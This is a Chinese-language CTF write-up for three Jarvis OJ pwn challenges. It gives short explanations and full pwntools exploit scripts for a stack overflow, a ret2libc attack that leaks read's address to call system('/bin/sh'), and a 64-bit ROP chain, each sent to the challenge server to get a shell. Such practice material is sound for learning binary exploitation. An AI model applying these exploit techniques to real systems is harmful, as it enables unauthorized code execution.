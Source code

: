 # write up 0712

## [XMAN]level3

栈溢出，题目给出了libc库，通过泄露read函数的地址得到system和/bin/sh的地址进行调用  

不知道为什么本地打的时候就出不来，打远程的时候就可以了

exp:

```python
 from pwn import *

#context.log_level = 'debug'

#n = process('./level3')
n = remote('pwn2.jarvisoj.com', 9879)
#n = remote("localhost",12345)

elf = ELF('./level3')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
libc = ELF('./libc-2.19.so')

offset = 0x8c

read_got = elf.got['read']
write_plt = elf.plt['write']
vuln_addr = elf.symbols['vulnerable_function']

payload1 = 'a' * offset + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(read_got) + p32(4)

n.recvuntil("Input:\n")
n.sendline(payload1)

read_addr = u32(n.recv(4))

libcbase = read_addr - libc.symbols['read']

sys_addr = libcbase + libc.symbols['system']
sh_addr = libcbase + libc.search("/bin/sh").next()

n.recvuntil('Input:\n')
payload2 = 'a' * offset + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
n.sendline(payload2)
n.interactive()

```



## Test Your Memory

### exp:

```python
from pwn import *

n = remote('pwn2.jarvisoj.com', 9876)
#n = process('./memory')
elf = ELF('./memory')

win_func_addr = 0x080485BD
cat_flag_addr = 0x080487E0

offset = 0x13 + 4

n.recv()
payload = 'a' * offset + p32(win_func_addr) + p32(cat_flag_addr) *2
n.sendline(payload)
n.interactive()
```



## [XMAN]level2_x64

### 分析：

跟level2差不多，不过64位的参数是通过寄存器传递的

exp:

```python
from pwn import *

n = remote('pwn2.jarvisoj.com',9882)
#n = process('./level2_x64')
elf = ELF('./level2_x64')

sys_plt = elf.plt['system']
sh_addr = elf.search('/bin/sh').next()

pop_rdi_ret_addr = 0x00000000004006b3

offset = 0x88

payload = 'a' * offset + p64(pop_rdi_ret_addr) + p64(sh_addr) + p64(sys_plt)

n.recv()
n.sendline(payload)
n.interactive()
```

